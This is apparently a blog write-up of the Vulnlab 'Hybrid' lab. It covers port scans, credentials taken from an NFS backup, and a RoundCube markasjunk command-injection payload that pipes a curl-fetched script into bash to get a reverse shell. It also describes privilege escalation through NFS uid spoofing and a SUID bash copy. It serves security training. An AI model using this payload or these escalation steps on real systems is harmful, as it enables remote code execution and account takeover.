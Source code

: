 ```yaml
---
title: Hybrid
date: 2024-06-02 11:00:00
categories: [Windows]
tags: [vulnlab, active directory]   # TAG names should always be lowercase
description: Writeup of the Hybrid chain on Vulnlab
---
```


#Hybrid

## Enumeration

While scanning these machines we find the following:

### mail01

```
Nmap scan report for 10.10.138.70
Host is up, received user-set (0.014s latency).
Scanned at 2023-10-12 18:55:25 CEST for 333s
Not shown: 65434 closed tcp ports (reset), 86 filtered tcp ports (no-response)
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     syn-ack ttl 63 Postfix smtpd
80/tcp    open  http     syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
110/tcp   open  pop3     syn-ack ttl 63 Dovecot pop3d
111/tcp   open  rpcbind  syn-ack ttl 63 2-4 (RPC #100000)
143/tcp   open  imap     syn-ack ttl 63 Dovecot imapd (Ubuntu)
587/tcp   open  smtp     syn-ack ttl 63 Postfix smtpd
993/tcp   open  ssl/imap syn-ack ttl 63 Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 syn-ack ttl 63 Dovecot pop3d
2049/tcp  open  nfs_acl  syn-ack ttl 63 3 (RPC #100227)
36127/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
38229/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
38815/tcp open  status   syn-ack ttl 63 1 (RPC #100024)
41453/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
43175/tcp open  nlockmgr syn-ack ttl 63 1-4 (RPC #100021)
Service Info: Host:  mail01.hybrid.vl; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### dc01

```
Nmap scan report for 10.10.138.69
Host is up, received user-set (0.016s latency).
Scanned at 2023-10-12 18:55:25 CEST for 333s
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-10-12 17:00:09Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63742/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63751/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64485/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Port 80 
We find that the mail01 server has some mail services running, NFS and has joined a Active Directory.
On port 80 we find a RoundCube Web interface.

![Roundcube interface](/assets/img/post_images/Hybrid/Hybrid_01.png)

Not finding much we can go on, we turn back to our scan results and try NSF.
Let's see if there are some shares available using _showmount_: 

```shell 
showmount -e 10.10.138.70
```
And there is indeed a share available:
![NFS share](/assets/img/post_images/Hybrid/Hybrid_02.png)


Next, we mount the share on our attack machine:
```Shell 
sudo mount -t nfs 10.10.138.70:/opt/share ./nfs_share/ -o nolock
```

Inside we find _backup.tar.gz_:
![Backup.tar.gz](/assets/img/post_images/Hybrid/Hybrid_03.png)

Let's enumerate the content of the backup file!

```shell
.
├── backup.tar.gz
├── etc
│   ├── dovecot
│   │   └── dovecot-users
│   ├── passwd
│   ├── postfix
│   │   └── main.cf
│   └── sssd
│       └── sssd.conf
└── opt
    └── certs
        └── hybrid.vl
            ├── fullchain.pem
            └── privkey.pem
```

Inside the dovecot-users file we find some credentials:
```
admin@hybrid.vl:{plain}Duckling21
peter.turner@hybrid.vl:{plain}PeterIstToll!
```

Trying these out on the webinterface we found earlier, we can log into RoundCube as peter!

## User

The only email inside talks about a junk filter plugin, when we look for the plugin we find it's called: _markasjunk_.
![markasjunk](/assets/img/post_images/Hybrid/Hybrid_04.png)

Looking for vulnerabilities we find the following blog: _https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/_

__Tldr;__ this version of markasjunk has a command injection vulnerability that can be triggered by changing a Identity, and marking the email as spam.
Using the following payload we can get a reverse shell:
`peter.turner&curl${IFS}10.8.0.64/rs.sh${IFS}|${IFS}bash&@hybrid.vl`

![reverse_shell](/assets/img/post_images/Hybrid/Hybrid_05.png)


## Privilege Escalation
Looking around the machine, we do not find much of value. However, we can write to the NFS share. There's no `no_root_squash`, so we cannot place binaries owned by root, nor change ownership.
However, we can try: https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting#permissions

To abuse the read/write rights on the nfs share we need the uid of `peter.turner`.


![UID_Peter](/assets/img/post_images/Hybrid/Hybrid_06.png)


We make a new useraccount on our _attack machine_ with the uid of peter.turner.  -> 
`sudo adduser legitpeter --uid 902601108`


On the _victim machine_ we copy bash to the /opt/share directory.

Next, on the _attack machine_ we set the SUID on the binary: 


![SUID_Peter](/assets/img/post_images/Hybrid/Hybrid_07.png)


On the _victim machine_ we check the binary as well:


![Checking the binary for userrights](/assets/img/post_images/Hybrid/Hybrid_08.png)

Then we activate the binary using `-p` (privileged mode) and we are effectively peter.turner:


![We are Peter](/assets/img/post_images/Hybrid/Hybrid_09.png)

In Peter's home directory we find the first flag and a passwords.kdbx file!


![User_flag](/assets/img/post_images/Hybrid/Hybrid_10.png)





